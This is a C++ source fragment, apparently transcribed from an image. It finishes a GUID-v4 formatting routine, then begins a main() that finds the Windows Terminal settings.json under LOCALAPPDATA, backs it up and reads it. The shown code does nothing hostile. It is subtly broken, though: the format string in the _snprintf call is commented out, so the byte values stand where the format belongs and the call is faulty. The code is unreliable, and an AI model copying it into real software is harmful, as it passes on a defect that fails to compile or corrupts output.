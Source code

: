 ```cpp
  unsigned char b[16];
  memcpy(b+0,  &r[0], 4);
  memcpy(b+4,  &r[1], 4);
  memcpy(b+8,  &r[2], 4);
  memcpy(b+12, &r[3], 4);

  // version 4
  b[6] = (b[6] & 0x0F) | 0x40;
  // variant 10xx
  b[8] = (b[8] & 0x3F) | 0x80;
 
  // format {xxxxxxxx-xxxx-xxxx-xxxx-xxxxxxxxxxxx}
  _snprintf(out, 64,
    // "{%02X%02X%02X%02X-%02X%02X-%02X%02X-%02X%02X-%02X%02X%02X%02X%02X%02X}",
    b[0],b[1],b[2],b[3], b[4],b[5], b[6],b[7], b[8],b[9], b[10],b[11],b[12],b[13],b[14],b[15]);
  out[63] = 0;
}
 
int main(int argc, char **argv) {
  // resolve settings.json locations from %LOCALAPPDATA%
  const char *lad = getenv("LOCALAPPDATA");
  if (!lad) {
    fprintf(stderr, "[-] LOCALAPPDATA not found\n");
    return 1;
  }
 
  char pathStore[MAX_PATH*2];
  char pathUnpkg[MAX_PATH*2];
 
  _snprintf(pathStore, sizeof(pathStore),
    "%s\\Packages\\Microsoft.WindowsTerminal_8wekyb3d8bbwe\\LocalState\\settings.json", lad);
  pathStore[sizeof(pathStore)-1] = 0;
 
  _snprintf(pathUnpkg, sizeof(pathUnpkg),
    "%s\\Microsoft\\Windows Terminal\\settings.json", lad);
  pathUnpkg[sizeof(pathUnpkg)-1] = 0;
 
  const char *settingsPath = NULL;
  if (file_existsA(pathStore)) settingsPath = pathStore;
  else if (file_existsA(pathUnpkg)) settingsPath = pathUnpkg;
  else {
    fprintf(stderr, "[-] settings.json not found:\n    %s\n    %s\n", pathStore, pathUnpkg);
    return 1;
  }
 
  printf("[+] using: %s\n", settingsPath);
 
  // backup and read JSON
  backup_same_dir(settingsPath);
 
  unsigned char *buf = NULL;
  size_t blen = 0;
  int had_bom = 0;
  if (!read_file_utf8(settingsPath, &buf, &blen, &had_bom)) {
    fprintf(stderr, "[-] failed to read settings.json\n");
    return 1;
  }
 
  char *json = (char*)malloc(blen + 1);
  if (!json) { free(buf); return 1; }
  memcpy(json, buf, blen + 1);
  free(buf);
 
```